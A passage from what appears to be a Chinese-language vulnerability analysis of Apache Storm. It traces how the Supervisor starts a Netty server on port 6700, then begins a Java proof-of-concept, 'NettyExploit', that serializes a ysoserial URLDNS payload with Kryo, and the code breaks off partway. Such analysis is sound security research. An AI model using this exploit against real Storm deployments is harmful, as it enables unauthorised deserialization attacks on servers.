 而在 Supervisor.java 中先实例化 Supervisor，在实例化的同时加载配置文件（配置文件 storm.yaml 配置 6700 端口），然后调用 launchDaemon 进行服务加载

![](assets/1711960555-921cad0e03bfe987824b7755cf504a81.png)

读取配置文件细节为会先调用 ConfigUtils.readStormConfig () 读取对应的配置文件

![](assets/1711960555-2967492d0f0af2000757e0416afddfe7.png)

ConfigUtils.readStormConfig() -> ConfigUtils.readStormConfigImpl() -> Utils.readFromConfig()

![](assets/1711960555-2e0c22cea9c1cb6277b7e50c57f36935.png)

可以看到调用 findAndReadConfigFile 读取 storm.yaml                    

![](assets/1711960555-e20d3650a5b3e45d5e743252350dd7e1.png)

读取完配置文件后进入 launchDaemon，调用 launch 方法                                      

![](assets/1711960555-307179c2099c1cbdf44052c602a5551f.png)

在 launch 中实例化 ReadClusterState                                                                            

![](assets/1711960555-17a484fde9329048a0863be799de8b15.png)

在 ReadClusterState 的构造方法中会依次调用 slot.start ()，进入 Slot 的 run 方法。最终调用 LocalContainerLauncher.launchContainer ()，并同时传入端口等配置信息，最终调用 new Server (topoConf, port, cb, newConnectionResponse)，监听对应的端口和绑定 Handler。

#### **4、关于 POC 构造**                              

```Java
import org.apache.commons.io.IOUtils;
import org.apache.storm.serialization.KryoValuesSerializer;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.URLDNS;

import java.io.*;
import java.math.BigInteger;
import java.net.*;
import java.util.HashMap;

public class NettyExploit {

    /**
     * Encoded as -600 ... short(2) len ... int(4) payload ... byte[]     *
     */
    public static byte[] buffer(KryoValuesSerializer ser, Object obj) throws IOException {
        byte[] payload = ser.serializeObject(obj);
        BigInteger codeInt = BigInteger.valueOf(-600);
        byte[] code = codeInt.toByteArray();
        BigInteger lengthInt = BigInteger.valueOf(payload.length);
        byte[] length = lengthInt.toByteArray();

        ByteArrayOutputStream outputStream = new ByteArrayOutputStream( );
        outputStream.write(code);
        outputStream.write(new byte[] {0, 0});
        outputStream.write(length);
        outputStream.write(payload);
        return outputStream.toByteArray( );
    }

    public static KryoValuesSerializer getSerializer() throws MalformedURLException {
        HashMap<String, Object> conf = new HashMap<>();
        conf.put("topology.kryo.factory", "org.apache.storm.serialization.DefaultKryoFactory");
```